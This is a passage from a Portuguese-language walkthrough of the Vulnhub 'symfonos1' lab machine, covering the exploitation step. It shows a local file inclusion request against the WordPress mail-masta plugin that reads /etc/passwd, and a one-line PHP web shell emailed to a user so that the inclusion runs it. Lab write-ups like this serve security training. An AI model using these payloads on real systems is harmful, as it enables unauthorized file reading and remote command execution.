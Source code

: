 ## Exploitation

### Plugin MAIL-MASTA Local File Inclusion

De acordo com a explicação do Exploit do link mencionado, é possível obter um LFI (Local File Inclusion) na máquina alvo usando o link abaixo.

```
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

![passwd LFI](/assets/img/Vulnhub/symfonos1/passwdlfi.png)

Com o passo anterior em mente, enviamos um email para o usuário `helios` contendo um parâmetro em `.php` na mensagem. Assim, conseguimos acessá-lo usando o LFI.

```php
<?php system($_GET['cmd']); ?>
```

![php cmd](/assets/img/Vulnhub/symfonos1/phpcmd.png)
